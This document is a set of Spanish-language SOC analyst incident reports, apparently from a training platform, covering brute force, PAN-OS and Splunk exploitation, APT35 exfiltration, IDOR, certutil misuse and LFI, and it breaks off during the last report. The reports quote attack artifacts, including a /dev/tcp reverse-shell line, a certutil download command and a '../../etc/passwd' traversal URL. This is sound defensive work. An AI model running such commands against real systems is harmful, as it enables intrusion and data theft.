## Informe de Incidente - Evento 234

### 1.a Memoria del Trabajo Realizado

- **Tipo según Taxonomía:** Brute Force
- **Criticidad:** Media
- **Descripción del Incidente:** Se detectó un intento de ataque de fuerza bruta a través del protocolo RDP desde la dirección IP 218.92.0.56 hacia el host Matthew (IP: 172.16.17.148). El ataque consistió en intentos de inicio de sesión fallidos desde una sola fuente con diferentes cuentas no existentes.


### 1.b Proceso de Investigación

Para determinar si el ataque de fuerza bruta fue exitoso, se revisaron los registros de auditoría de SSH/RDP:

- Para Windows:
  - Se verificaron los eventos del Event ID 4625: "An account failed to log on".

- Para Linux:
  - Se ejecutaron los comandos `cat /var/log/auth.log | grep "Failed password"`.

Tras revisar los registros, se concluyó que el ataque no fue exitoso, ya que no se encontraron registros de un inicio de sesión exitoso después de una serie de intentos fallidos desde la misma dirección IP y hacia el mismo destino.

### Actuación para el Restablecimiento de Servicios

Dado que el ataque no tuvo éxito, no fue necesario realizar ninguna acción para restablecer servicios afectados.

### Acciones Destacadas y Análisis de Actuaciones

- Se monitorearon los registros de auditoría para detectar cualquier actividad adicional.
- Se llevó a cabo un análisis exhaustivo de los intentos de inicio de sesión fallidos para identificar patrones o comportamientos sospechosos.
- Se registraron las lecciones aprendidas, incluyendo la importancia de tener medidas de seguridad robustas para evitar ataques de fuerza bruta.

### Registro de Lecciones Aprendidas y Mejoras Propuestas

- **Lecciones Aprendidas:**
  - La importancia de contar con políticas de seguridad robustas para contraseñas, como el uso de contraseñas fuertes y la implementación de bloqueos después de varios intentos fallidos.
  - La necesidad de monitorear de cerca los registros de auditoría para detectar y responder rápidamente a posibles ataques.

- **Mejoras Propuestas:**
  - Reforzar las políticas de seguridad de contraseñas en todos los sistemas, incluyendo la implementación de bloqueos automáticos después de un número determinado de intentos fallidos.
  - Mejorar la capacidad de monitoreo y respuesta a incidentes para detectar y mitigar ataques de fuerza bruta de manera más efectiva.

### Actuaciones para Evitar Repetición

- Reforzar las políticas de seguridad de contraseñas, incluyendo la implementación de políticas de bloqueo de cuentas después de un número específico de intentos fallidos.
- Implementar sistemas de detección de intrusiones para detectar y responder rápidamente a posibles ataques de fuerza bruta en el futuro.


-----

## Informe de Incidente - Evento 249

### Entendiendo la Activación de la Alerta

- **Tipo de Evento:** Explotación de Vulnerabilidad de Inyección de Comandos en Palo Alto Networks PAN-OS (CVE-2024-3400)
- **Dispositivos Implicados:** Se detectó tráfico desde la dirección IP de origen 144.172.79.92 (Puerto de Origen: 51232) hacia la dirección IP de destino 172.16.17.139 (Puerto de Destino: 20077).


### Recopilación de Datos

#### Tráfico Proveniente de Internet

- **Propósito del Tráfico:** Se identificó un intento de conexión HTTP POST desde la dirección IP 144.172.79.92 hacia el recurso /global-protect/login.esp en la dirección IP 172.16.17.139.
- **Contenido del Tráfico:** Se observó una cookie inusual en la solicitud HTTP, que parecía estar manipulada para explotar una vulnerabilidad de inyección de comandos en el software PAN-OS.

### Determinando la Malicia

- **Análisis de la Solicitud HTTP:** La solicitud HTTP POST contenía una cookie modificada que incluía un comando `curl` que apuntaba a la dirección IP 144.172.79.92 en el puerto 4444, lo que indica un intento de explotar la vulnerabilidad conocida.


Viendo en virus total se encontro que era maliciosa.


Se concluye que el trafico era malicioso:


### Verificando si se Trata de Pruebas Planeadas

- **Pruebas de Penetración:** No se encontraron registros ni indicaciones de que este tráfico malicioso fuera parte de una prueba de penetración planeada.
- **Productos de Simulación de Ataques:** El tráfico no parece ser el resultado de productos de simulación de ataques conocidos.


### ¿Fue Exitoso el Ataque?

- **Resultados del Ataque:** Aunque se detectó un intento de explotación, no se encontraron pruebas de que el ataque haya tenido éxito. No se observaron cambios significativos en el funcionamiento del sistema afectado.


### Artefactos


### Acciones Recomendadas

- **Monitoreo Continuo:** Se recomienda monitorear de cerca el tráfico entrante y saliente para detectar y prevenir futuros intentos de explotación.
- **Actualizaciones de Seguridad:** Es importante mantener el software PAN-OS actualizado con los últimos parches de seguridad para mitigar vulnerabilidades conocidas.

---


## Informe de Incidente - Evento 212

### Identificación del Incidente

- **Descripción:** APT35, también conocido como Charming Kitten, ha sido observado utilizando una nueva herramienta llamada Hyperscrape para extraer correos electrónicos de las bandejas de entrada de sus víctimas.
- **EventID:** 212
- **Hora del Evento:** 27 de Diciembre de 2023, 11:22 AM
- **Regla Detectada:** SOC250 - APT35 HyperScrape Data Exfiltration Tool Detected
- **Nivel de Alerta:** Analista de Seguridad
- **Hostname:** Arthur
- **Dirección IP:** 172.16.17.72
- **Nombre del Proceso:** EmailDownloader.exe
- **Ruta del Proceso:** C:\Users\LetsDefend\Downloads\EmailDownloader.exe
- **Proceso Padre:** C:\Windows\Explorer.EXE
- **Línea de Comando:** C:\Users\LetsDefend\Downloads\EmailDownloader.exe
- **Hash del Archivo:** cd2ba296828660ecd07a36e8931b851dda0802069ed926b3161745aae9aa6daa
- **Razón de Activación:** Se identificaron patrones de comportamiento inusual o sospechoso vinculados al hash del archivo, indicando una posible intención maliciosa.
- **Acción del Dispositivo:** Permitida

### Registros de Interés

#### Primer Evento

- **Tipo:** OS
- **Dirección IP de Origen:** 172.16.17.72
- **Puerto de Origen:** 0
- **Dirección IP de Destino:** 172.16.17.72
- **Puerto de Destino:** 0
- **Hora:** 27 de Diciembre de 2023, 11:17 AM
- **Registro Crudo:**
  - **Usuario:** Arthur
  - **ID de Evento:** 4624 (Se ha iniciado sesión correctamente una cuenta)
  - **Tipo de Inicio de Sesión:** 10
  - **IP de Origen:** 173.209.51.54

#### Segundo Evento

- **Tipo:** Firewall
- **Dirección IP de Origen:** 172.16.17.72
- **Puerto de Origen:** 24234
- **Dirección IP de Destino:** 136.243.108.14
- **Puerto de Destino:** 80
- **Hora:** 27 de Diciembre de 2023, 11:22 AM
- **Registro Crudo:**
  - **IP de Origen:** 172.16.17.72
  - **IP de Destino:** 136.243.108.14
  - **Puerto de Destino:** 80
  - **Proceso de Origen:** EmailDownloader.exe
  - **Acción del Firewall:** ÉXITO

### Análisis del Incidente

#### Tipo de ataque:

- Tipo de Ataque: Exfiltración de Datos

El incidente implica la detección de una herramienta de exfiltración de datos llamada Hyperscrape, utilizada por el grupo APT35 (Charming Kitten), para extraer correos electrónicos de las bandejas de entrada de las víctimas. Esta acción se alinea con el objetivo de robo de información confidencial y su posterior transferencia desde el sistema comprometido hacia un servidor controlado por el atacante. La detección de este tipo de actividad maliciosa constituye un grave riesgo para la seguridad de la información y puede resultar en pérdidas significativas para la organización afectada.


#### Reconocimiento

El ataque coincide con técnicas de reconocimiento, específicamente la extracción de correos electrónicos utilizando la herramienta Hyperscrape.

#### Alcance

Se necesita determinar qué otros sistemas pueden estar afectados. No se encontraron evidencias de más de un dispositivo afectado hasta el momento.

#### Contención

Se recomienda aislar el dispositivo afectado para reducir el impacto del ataque.

#### Lecciones Aprendidas

- El ataque ocurrió a través de la herramienta Hyperscrape, utilizada por APT35.
- El personal y la gestión respondieron adecuadamente al incidente al detectar y registrar el comportamiento inusual.
- Se deben implementar medidas preventivas, como la actualización de sistemas y la capacitación del personal en seguridad cibernética, para evitar incidentes similares en el futuro.
- Se debe monitorear de cerca los comportamientos inusuales en los registros de seguridad para detectar y prevenir futuros incidentes.

### Artefactos


- **Hash del Archivo:** cd2ba296828660ecd07a36e8931b851dda0802069ed926b3161745aae9aa6daa

- **Dirección IP de Origen:** 172.16.17.72

- **Proceso de Origen:** EmailDownloader.exe


## Informe de Incidente - Evento 201

---

### Identificación del Incidente

- **Descripción:** Se detectó una ejecución remota de código en Splunk Enterprise a través de la carga de archivos maliciosos utilizando XSLT por parte de un usuario no autorizado.
- **EventID:** 201
- **Hora del Evento:** Noviembre 21, 2023, 12:24 PM
- **Regla Detectada:** SOC239 - Remote Code Execution Detected in Splunk Enterprise
- **Nivel de Alerta:** Analista de Seguridad
- **Hostname:** Splunk Enterprise
- **Dirección IP de Origen:** 180.101.88.240
- **Dirección IP de Destino:** 172.16.20.13
- **HTTP Request Method:** POST
- **URL Solicitada:** http://18.219.80.54:8000/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl
- **Ruta del Archivo Disparador:** /opt/splunk/var/run/splunk/dispatch/1700556926.3/shell.xsl
- **Razón de Activación:** Se detectó una carga de archivos XSLT maliciosos en Splunk Enterprise con el potencial de desencadenar una ejecución remota de código.
- **Acción del Dispositivo:** Permitida

### Análisis del Incidente

#### Tipo de Ataque: Ejecución Remota de Código mediante xml (RCE)

El incidente implica la ejecución remota de código en Splunk Enterprise mediante la carga de archivos maliciosos utilizando XSLT por parte de un usuario no autorizado. Esta acción puede resultar en un compromiso significativo de la seguridad de la plataforma Splunk y poner en riesgo la integridad y confidencialidad de los datos.

#### Evaluación de Artefactos

Se encontraron dos archivos asociados al incidente:

- **shell.sh:** Contiene el siguiente comando: `sh -i >& /dev/tcp/180.101.88.240/1923 0>&1`, lo que indica un intento de establecer una conexión de shell inversa.
- **shell.xsl:** Contiene código XSLT diseñado para realizar una inyección XML externa (XXE), específicamente un ataque de inyección de entidad externa XML.

#### Evaluación de Logs

Se recopilaron registros de firewall y proxy que muestran la interacción entre las direcciones IP y puertos involucrados en el incidente. Estos registros confirman la comunicación entre el origen malicioso y el destino en la infraestructura de Splunk Enterprise.

#### Evaluación de IP

La dirección IP de origen (180.101.88.240) se identificó como maliciosa por múltiples proveedores de seguridad. Perteneciente a la red de la empresa China Telecom, su reputación indica un alto riesgo de actividad maliciosa.


#### Éxito del Ataque

Dado que la acción del dispositivo fue permitida y se detectó una carga de archivos maliciosos exitosa, se determina que el ataque fue exitoso. La ejecución remota de código pudo haber comprometido la seguridad de Splunk Enterprise.

### Contención y Recomendaciones

- **Aislamiento del Dispositivo:** Se recomienda aislar el dispositivo afectado para evitar una mayor propagación del ataque y para investigar a fondo el alcance del compromiso.
- **Revisión de Políticas de Seguridad:** Se deben revisar y fortalecer las políticas de seguridad de Splunk Enterprise para prevenir futuros incidentes de ejecución remota de código.
- **Notificación de Escalón de Nivel 2:** Dado el éxito del ataque, se requiere una notificación al equipo de Escalón de Nivel 2 para una evaluación más detallada y medidas de respuesta adicionales.


## **Informe de Incidente - SOC227: Posible Explotación de CVE-2023-29357 en Microsoft SharePoint Server**

**Resumen del Incidente:**
- **Evento:** SOC227 - Microsoft SharePoint Server Elevation of Privilege - Possible CVE-2023-29357 Exploitation
- **Fecha y Hora:** Oct, 06, 2023, 08:05 PM (UTC)
- **Nivel:** Analista de Seguridad
- **Hostname:** MS-SharePointServer
- **IP de Origen:** 39.91.166.222
- **IP de Destino:** 172.16.17.233
- **Método de Solicitud:** GET
- **URL Solicitada:** /_api/web/siteusers
- **User-Agent:** python-requests/2.28.1
- **Acción del Dispositivo:** Permitido
- **Taxonomía:** Web Attack
- **Criticidad:** Crítica

### **Descripción del Incidente:**
- Se detectó un posible intento de explotar la vulnerabilidad CVE-2023-29357 en Microsoft SharePoint Server.
- La solicitud GET a la API de SharePoint (`/_api/web/siteusers`) desde la IP de origen 39.91.166.222 generó una respuesta exitosa (código de estado 200).
- Sin embargo, se observó una segunda solicitud a una ruta no válida (`/_api/web/siteusers/web/siteusers`), lo que resultó en un código de estado 404 (No Encontrado).

### **Análisis:**
- La primera solicitud parece ser legítima y busca obtener información de usuarios del sitio desde la API de SharePoint.
- La segunda solicitud a una ruta inexistente podría indicar un intento de acceso malicioso o exploración por parte del mismo IP.
- Este comportamiento podría ser indicativo de una posible exploración en busca de vulnerabilidades o intentos de acceso no autorizados.

**Registros del Log:**

```
39.91.166.222 - - [06/Oct/2023:20:05:06 +0000] "GET /_api/web/siteusers HTTP/1.1" 200 1453 "-" "python-requests/2.28.1"
39.91.166.222 - - [06/Oct/2023:20:05:06 +0000] "GET /_api/web/siteusers/web/siteusers HTTP/1.1" 404 1453 "-" "python-requests/2.28.1"
```


Virustotal la identifica como maliciosa.

**¿Es el tráfico malicioso causado por una prueba planificada?**

No hay indicaciones en los registros de actividad que sugieran que el tráfico malicioso sea el resultado de una prueba planificada. Se recomienda una investigación adicional para determinar la naturaleza exacta del incidente.

**¿Cuál es la dirección del tráfico?**

El tráfico malicioso se dirige desde la IP de origen 39.91.166.222 al destino 172.16.17.233.

**¿Se logró el ataque?**

Dado que la primera solicitud recibió una respuesta exitosa (código de estado 200), es posible que el atacante haya obtenido información sobre los usuarios del sitio. Sin embargo, la segunda solicitud resultó en un código de estado 404, lo que indica que la ruta solicitada no fue encontrada. Se necesita una investigación adicional para determinar si el ataque fue exitoso en su totalidad. Por ende se mandaria al tier 2.


**Acciones Recomendadas:**
- Investigar más a fondo el origen y la naturaleza de la segunda solicitud para determinar la intención del atacante.
- Evaluar si el servidor de SharePoint está parcheado y protegido contra la vulnerabilidad CVE-2023-29357.
- Monitorizar y registrar actividades sospechosas o maliciosas en el servidor para detectar y prevenir posibles ataques futuros.


## **Informe de Incidente - SOC210: Detección de Ataque de Fuerza Bruta en VPN**

### **Detalles Iniciales:**
- **Evento:** SOC210 - Posible Detección de Ataque de Fuerza Bruta en VPN
- **Fecha y Hora:** Jun, 21, 2023, 01:51 PM (UTC)
- **Nivel:** Analista de Seguridad
- **Dirección de Origen:** 37.19.221.229
- **Dirección de Destino:** 33.33.33.33
- **Hostname de Destino:** Mane
- **Nombre de Usuario:** mane@letsdefend.io
- **Razón de Activación de la Alerta:** Se detectó un inicio de sesión exitoso en la VPN poco después de intentos fallidos de inicio de sesión desde la misma dirección IP de origen.

### **Análisis Inicial:**
- **Revisión de Registros:**
  Se verificaron los registros de autenticación y se observaron varios intentos fallidos de inicio de sesión desde la misma dirección IP. También se detectó que la misma dirección IP intentaba iniciar sesión con diferentes usuarios. El inicio de sesión exitoso parece sospechoso después de estos intentos fallidos.
  
  Podemos observar un monton de logs sobre la misma ip que son intentos de inicio de sesion.
  
  Ejemplos

- **Seguridad del Endpoint:**
  Se buscó al usuario Mane en el sistema EPS para verificar si había actividades sospechosas, pero no se encontró ninguna actividad después de que se generara la alerta, es decir, después del inicio de sesión exitoso.
  
- **Búsqueda de la Dirección IP de Origen:**
  Se realizó una búsqueda de la dirección IP en VirusTotal y AbuseIPDB, y se encontró que está marcada como maliciosa y categorizada como ataque de fuerza bruta.

### **Respuestas a las Preguntas del Playbook:**
1. ¿Se detectaron solicitudes desde la dirección IP del atacante en EPS?
   - Sí, se detectaron solicitudes desde la dirección IP del atacante.

2. ¿El ataque fue exitoso según el análisis inicial de los registros?
   - Sí, el ataque fue exitoso según el análisis inicial de los registros.

3. ¿Se requiere contener el dispositivo afectado?

   - Sí, se requiere contener el dispositivo afectado ya que el ataque fue exitoso.

### **Artefactos**



## **Informe de Incidente - SOC-GTSC: Explotación de Vulnerabilidades Zero-Day en Microsoft Exchange Server**

### **Detalles Iniciales:**
- **Evento:** Explotación de Vulnerabilidades Zero-Day en Microsoft Exchange Server
- **Fecha:** Septiembre de 2022
- **Equipo Responsable:** SOC-GTSC (Vietnam)
- **Vulnerabilidades Afectadas:** CVE-2022–41040 y CVE-2022–41082
- **Impacto:** Posibilidad de Ejecución Remota de Código (RCE)
- **Alcance del Ataque:** Observado en menos de 10 organizaciones a nivel global

### **Descripción del Incidente:**
En agosto, el equipo SOC-GTSC descubrió dos nuevas vulnerabilidades, CVE-2022–41040 y CVE-2022–41082, en Microsoft Exchange Server, las cuales fueron reportadas a la Zero-day Initiative (ZDI) para una mayor coordinación con Microsoft. Estas vulnerabilidades permiten la ejecución remota de código (RCE) cuando se combinan. Según MSTIC, los ataques se realizan mediante la concatenación de CVE-2022–41040 y CVE-2022–41082 en un pequeño número de ataques dirigidos, observados en menos de 10 organizaciones a nivel global.

CVE-2022–41040 es una vulnerabilidad de solicitud falsificada del lado del servidor (SSRF), mientras que CVE-2022–41082 permite la ejecución remota de código (RCE) cuando PowerShell de Exchange está accesible para el atacante. Es importante recordar que, para ser explotadas, ambas vulnerabilidades requieren acceso autenticado al servidor deseado, el cual puede ser el de un usuario estándar.

### **Análisis y Respuesta:**
- **Búsqueda de IP de Origen:**
  Se identifica que la dirección IP de origen, 58.237.200.6, está marcada como maliciosa y está asociada a una empresa de telecomunicaciones de Corea del Sur.

- **Revisión de Registros:**
  Se observa en los registros que se realizaron múltiples solicitudes desde la IP 58.237.200.6 al servidor con la IP 172.16.20.8, utilizando el puerto 443. Se identifican intentos de explotación de la vulnerabilidad Proxy(not)Shell, sin embargo, todas las tentativas fueron bloqueadas.

- **Tipo de Ataque:**
  El tipo de ataque se clasifica como "other", ya que implica la explotación de una vulnerabilidad de ejecución remota de código cuando PowerShell de Exchange está accesible para el atacante.

- **Planificación del Ataque:**
  No se encuentra evidencia de que el ataque sea parte de una prueba planificada o simulación.

- **Dirección del Tráfico:**
  El tráfico se origina desde Internet hacia la compañía, según lo observado en los registros.

- **Éxito del Ataque:**
  No se considera un ataque exitoso, ya que todas las tentativas fueron bloqueadas por los dispositivos de seguridad.

- **Escalación de Nivel 2:**
  No se requiere la escalación al Nivel 2, dado que el ataque no tuvo éxito y fue bloqueado por las medidas de seguridad existentes.



## **Informe de Incidente - SOC169: Posible Ataque IDOR Detectado**

### **Detalles Iniciales:**
- **Evento:** Alerta de Posible Ataque IDOR
- **Fecha y Hora:** Feb, 28, 2022, 10:48 PM
- **Nivel:** Analista de Seguridad
- **Hostname:** WebServer1005
- **IP de Destino:** 172.16.17.15
- **IP de Origen:** 134.209.118.137
- **Método de Solicitud HTTP:** POST
- **URL Solicitada:** https://172.16.17.15/get_user_info/
- **User-Agent:** Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; .NET CLR 1.1.4322)
- **Motivo de la Alerta:** Solicitudes consecutivas a la misma página
- **Acción del Dispositivo:** Permitido

### **Descripción del Incidente:**
Se ha detectado una alerta indicando un posible ataque IDOR en la URL de la solicitud HTTP. Se procederá a investigar para determinar si se trata de una alerta verdaderamente positiva.

### **Investigación:**
- Se ha inspeccionado el endpoint WebServer1004 utilizando Log Management para analizar la comunicación entre el servidor web y la IP del actor de amenazas.
- Se han detectado 5 registros entre estas dos direcciones IP, donde el actor de amenazas intentó modificar el parámetro "user_id" en la URL de la solicitud.
- Tamaño de la Respuesta HTTP: 253 // Se devolvió una respuesta "data" para esta solicitud.
- Estado de la Respuesta: 200 // Este código de estado indica una solicitud exitosa.
- Parámetros POST: ?user_id=2 // La modificación realizada por el atacante.
- Se ha realizado una investigación adicional sobre la IP del atacante, revelando que se trata de una IP maliciosa con un historial de varios intentos de ataques.

### **Resultados de la Investigación:**
Con esta evidencia, se confirma que se trató de un verdadero intento de ataque IDOR en WebServer1005. No se ha encontrado ninguna actividad sospechosa en la seguridad del correo electrónico, lo que indica que no se trató de un ataque planificado. Dado que el atacante logró su objetivo, se ha contenido WebServer1005 aislandolo. Además, se ha escalado esta alerta al equipo de analistas SOC de Nivel 2 para las acciones necesarias.

### **Nota Final del Analista:**
Se concluye que este fue un intento verdadero positivo de ataque IDOR en WebServer1005. Se han tomado las medidas necesarias para contener y escalar la alerta adecuadamente.


## **Informe de Incidente - SOC163: Uso Sospechoso de Certutil.exe**

### **Detalles Iniciales:**
- **Evento:** Uso Sospechoso de Certutil.exe
- **Fecha y Hora:** Marzo 1, 2022, 11:06 A.M
- **Hostname:** EricProd
- **IP de Origen:** 172.16.17.22
- **Binary Relacionado:** certutil.exe
- **Ruta del Binary:** C:/Windows/System32/certutil.exe
- **Línea de Comando:** certutil.exe -urlcache -split -f hXXps://nmap[.]org/dist/nmap-7.92-win32.zip nmap.zip
- **Acción EDR:** Permitido

### **Descripción del Incidente:**
Se ha detectado un uso sospechoso de Certutil.exe en el host EricProd. Certutil es utilizado por actores de amenazas para descargar archivos desde un sistema externo hacia un entorno comprometido.

### **Investigación:**
- Se ha inspeccionado la consola de Monitoreo para obtener información útil sobre el evento de seguridad.
- El atacante ejecutó un comando utilizando el ejecutable Certutil.
- Certutil.exe es un programa de línea de comandos utilizado para diversas funciones relacionadas con Certificados y Servicios.
- En este caso, el atacante utilizó Certutil para descargar archivos desde internet, incluyendo un archivo zip de Nmap y un script de Windows Exploit Suggester.


- Se ha verificado la ejecución de estos comandos utilizando Log Management y Endpoint Security.

### **Resultados de la Investigación:**
- Se ha confirmado que se trata de un incidente verdaderamente positivo.
- Se observaron múltiples comandos sospechosos realizados por el atacante en el historial de comandos del endpoint.
- Se ha detectado el acceso a URLs sospechosas por parte del host comprometido.
- Se ha identificado la descarga de archivos y la ejecución de comandos potencialmente maliciosos.

### **Contención:**
sí
### **Tareas Playbook:**
- **¿La actividad actual es sospechosa?** Sí, sospechosa
- **¿Qué actividad es sospechosa?** Descarga de archivos
- **¿Quién realizó la actividad?** Usuario


## **Informe de Incidente - SOC170: Posible Ataque LFI en el URL**

**Tipo según Taxonomía:** Ataque LFI (Inclusión de Archivos Locales)
**Criticidad:** Baja

### **Detalles del Alerta:**
- **Evento:** SOC170 - Passwd Found in Requested URL - Possible LFI Attack
- **Fecha y Hora:** Marzo 1, 2022, 10:10 AM
- **Hostname:** WebServer1006
- **IP de Destino:** 172.16.17.13
- **IP de Origen:** 106.55.45.162
- **Método de Solicitud:** GET
- **URL Solicitada:** https://172.16.17.13/?file=../../../../etc/passwd
- **User-Agent:** Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; .NET CLR 1.1.4322)
- **Razón de Activación de la Alerta:** URL Contiene passwd
- **Acción del Dispositivo:** Permitido

### **Descripción del Incidente:**
Se ha activado una alerta indicando un posible ataque LFI en el URL de la solicitud HTTPS. Se procederá a investigar para determinar si se trata de una alerta verdadera positiva.

### **Investigación:**
- Se ha inspeccionado el endpoint WebServer1006 utilizando Log Management para analizar la comunicación entre el servidor web y la IP del actor de amenazas 106.55.45.162.
